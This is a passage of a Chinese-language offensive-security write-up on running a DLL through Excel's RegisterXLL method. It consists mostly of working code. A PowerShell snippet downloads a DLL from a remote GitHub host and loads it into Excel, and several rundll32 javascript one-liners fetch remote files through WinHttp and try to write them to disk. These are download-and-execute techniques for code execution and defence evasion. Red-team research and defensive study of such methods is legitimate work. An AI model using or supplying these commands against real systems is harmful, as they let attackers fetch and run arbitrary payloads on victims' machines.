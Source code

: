 ### 1、通过powershell实现

```
$path=$env:APPDATA+"\Microsoft\Windows\Recent\calc.dll"
$client = new-object System.Net.WebClient
$client.DownloadFile('https://raw.githubusercontent.com/3gstudent/test/master/calc.dll', $path)
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($path)
```

**注：**

该代码缺少判断MicrosoftOffice是否安装的功能

### 2、结合rundll32使用

需要注意如下细节：

- 空格用%20表示
- 为避免执行后弹框，需要加入语句document.write();

否则，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-22.png)

使用ADODB.Stream保存文件，会报错,测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);h.Send();s=new%20ActiveXObject("ADODB.Stream");s.Type=1;s.Open();s.Write(h.ResponseBody);x=new%20ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";s.SaveToFile(x,2);`


提示因为安全设置导致无法保存文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-3.png)


换用Scripting.FileSystemObject，能够保存文本文件，但是不支持二进制文件

保存文本文件,测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/version.txt",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

保存二进制文件，测试代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

报错，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-4.png)
